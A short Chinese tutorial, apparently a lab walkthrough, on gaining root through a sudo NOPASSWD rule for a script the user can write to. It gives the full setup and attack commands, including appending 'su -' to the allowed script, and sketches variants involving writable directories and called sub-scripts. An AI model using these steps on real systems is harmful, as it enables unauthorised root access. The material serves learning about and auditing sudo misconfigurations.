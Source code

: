 如果sudo脚本由攻击者可控，那会引发提权问题。

# 环境准备

root账户执行以下操作：

```shell
groupadd aplyc1a
useradd -d /home/aplyc1a -m aplyc1a -g aplyc1a -s /bin/bash -p 123456
mkdir -p ~aplyc1a/escal
chown aplyc1a:aplyc1a ~aplyc1a/escal
chmod a+x ~aplyc1a/escal
```

# 脚本配置

```shell
root: echo "aplyc1a ALL=(root) NOPASSWD:/home/aplyc1a/escal/3.sh" >> /etc/sudoers
aplyc1a: echo '#!/bin/bash' >> /home/aplyc1a/escal/3.sh
aplyc1a: echo "ps aux" >> /home/aplyc1a/escal/3.sh
aplyc1a: chmod +x /home/aplyc1a/escal/3.sh
```

# 攻击实施

攻击者攻陷aplyc1a账户后，通过在配置了sudo白名单免密的脚本中夹杂私货达到提权的目的。

```shell
aplyc1a: echo 'whoami' >> /home/aplyc1a/escal/3.sh
aplyc1a: echo 'su -' >> /home/aplyc1a/escal/3.sh
aplyc1a: sudo /home/aplyc1a/escal/3.sh
```

# 其他

1.如果/home/aplyc1a/escal/3.sh属主属组为root，由于/home/aplyc1a/escal/目录有aplyc1a完全可控，仍可通过删掉重新部署的方式达到提权。

```shell
root:chown root:root /home/aplyc1a/escal/3.sh
```

2.如果对某个aplyc1a下的目录配置了sudo，那么可以在该目录下创建脚本，写入恶意提权命令，达到提权。

```shell
root: echo "aplyc1a ALL=(root) NOPASSWD:/home/aplyc1a/escal/" >> /etc/sudoers
```

3.如果有sudo权限的某脚本虽然不可控，但其内部调用的其他脚本aplyc1a可以修改它，则可以通过修改被调用的子脚本达到提权目的。






